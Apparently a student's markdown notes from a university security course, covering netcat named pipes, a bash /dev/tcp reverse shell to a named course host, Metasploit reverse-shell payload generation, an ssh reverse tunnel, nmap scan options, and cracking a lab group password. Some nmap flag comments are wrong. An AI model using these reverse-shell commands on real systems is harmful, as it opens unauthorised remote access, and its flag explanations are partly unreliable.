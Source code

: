 #9-14
Get around the lack of ```-e``` in netcat by using a **named pipe**

###/proc
It's an entirely simulated directory of unreal files to give information on current processes
###exec
As a linux command, it replaces the shell with whatever follows exec:

Dangerous Example: ```exec ls``` will ls and then kill itself upon completion. Boom goes your shell

###Bash Sockets (spawning a reverse shell entirely with bash)

    exec 5<>/dev/tcp/moxie.cs.colorado.edu/8888
    cat <&5 | while read line; do $line 2>&5 >&5; done

###Metasploit

    msf console
    use payload/linux/x86/shell/ <tab>

    use payload/linux/x86/shell/shell_reverse_tcp
    set LHOST 128.138.___.___
    set LPORT 8888
    generate -t c

    //or
    generate -t python

    //or if victim does not allow byte x31
    generate -b 31

###Symettric key cryptography
Alice and Bob (A & B) have a key and nobody else does
<br>Examples:
* AES-CBC
* 3DES-EDE-CBC
* RC4

###ssh reverse shell

    ssh -R 22:localhost:9001 dabo6422@moxie.cs.colorado.edu

#Port scanning

Most popular utility for post scanning is **nmap**

```shell
nmap -n -sL <ip_address>/<subnet>
# -n means do reverse DNS lookup
# -sL means simply list
```

##Scanning Tech
###TCP Scans
Old school port scanning: **ping**
* Also known as an ICMP echo (Internet Control Message Protocol)
```shell
nmap -sP #simply ping
```

**ACK scans** are the traditional

If you want to do a SYN Scan:
```shell
sudo nmap -Sp -PA <url>
```

**Stateful firewalls will not respond**
But if a server is not stateful, it will respond to an **ACK Scan** with a reset. That's the sign that it's actually there.

###UDP Pings
```shell
nmap -PU <port list> #default 31338
```

The reason it's such a weird port is because if you hit a normal port, it could be taking it in silently. On the other hand if you hit this weird 31338 port, it just might throw an error. That's good if it does

###ARP Scans
Even faster than TCP
* Downside is it's a LAN protocol (you can only scan machines on your LAN)

#VPN's
port 1194 default for openVPN <br>```id``` and ```id dawson``` can be two different things

```newgrp``` level4 is how to get razor to refresh right after accessing level 4 (instead of logout->login)

* FIrst level is to get the group password. (use john the ripper or a websearch (**md5**)) listed in ```/etc/group```

* There is a group called secret which when trying to ```newgrp secret```, it will prompt for password
* ^ That's only temporary, but ```l33t``` solidifies it
* Run ```l33t``` to set yourself as a permanent member in the group razor
* Run ```score``` in order to show the current standings of the users

------------
Encrypted password to start razor is:

```vi /etc/group```

###File Structures
* A hardlink is just adding another pointer to an i-node
* A directory is just a list of filenames and their associated i-nodes
* A symlink requires the ```-s``` flag




